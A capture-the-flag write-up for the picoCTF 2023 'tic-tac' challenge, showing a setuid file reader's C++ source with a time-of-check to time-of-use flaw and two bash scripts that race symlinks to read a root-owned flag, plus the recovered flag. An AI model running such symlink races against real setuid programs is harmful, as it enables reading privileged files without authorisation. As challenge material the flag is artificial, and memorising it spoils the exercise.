

# tic-tac - picoCTF 2023 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description


 
## tic-tac Solution

Let us connect to the SSH server as described in the challenge description:
```console
┌─[evyatar@parrot]─[/pictoctf2023/binary_exploitation/tic-tac]
└──╼ $ ssh ctf-player@saturn.picoctf.net -p 53662
ctf-player@saturn.picoctf.net's password:

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ls -ltr
total 28
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
```

We can observe that there are 3 files present:
1. `txtreader` - This binary file can be used with the following command: `./txtreader <filename>`
2. `src.cpp` - This file contains the source code for the txtreader binary.
3. `flag.txt` - This file is owned by root and contains the flag.

Let's take a closer look at the `src.cpp` file:
```c++
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

We can see in the src.cpp file that it checks if we are the owner of the file. If we are, it proceeds to read the file's contents.

Our goal is to read the `flag.txt` file. Based on the source code and the challenge tags, we can utilize the Time-of-Check to Time-of-Use (TOCTOU) vulnerability (https://cwe.mitre.org/data/definitions/367.html).

We can win the race between the file owner check and the file content read. At the moment of the file owner check, we can create a file that we own. Then, we can use a symlink to link the flag file and read it.

Let's use the following scripts to implement this strategy, `race.sh`:
```bash                                                                                    Modified  
ctf-player@pico-chall$ cat race.sh
touch /home/ctf-player/myfile
while true
do
    ln -fs /home/ctf-player/flag.txt /home/ctf-player/mysym
    ln -fs /home/ctf-player/myfile /home/ctf-player/mysym
done
```

`call.sh`:
```bash
ctf-player@pico-chall$ cat call.sh
bash race.sh &
race_pid=$!

while true
do
        ./txtreader /home/ctf-player/mysym > output.txt 2>&1
        if [ "$?" -eq 0 ]; then
            out=$(cat output.txt)
            if [[ $out == "picoCTF"* ]]; then
                echo $out
                break
            fi
        fi
done

kill -9 $race_pid
```

The `race.sh` script creates a file owned by our user. Then, in a while loop, it creates a symlink called `mysym` to the flag file, and then to our file `myfile`. We need to run this script in the background.

The `call.sh` script runs the `race.sh` script in the background, then calls the txtreader binary file with our symlink. 

To run the exploit, use the following commands:
```console
ctf-player@pico-chall$ bash call.sh 
picoCTF{ToctoU_!s_3a5y_007659c9}
```

And we get the flag `picoCTF{ToctoU_!s_3a5y_007659c9}`.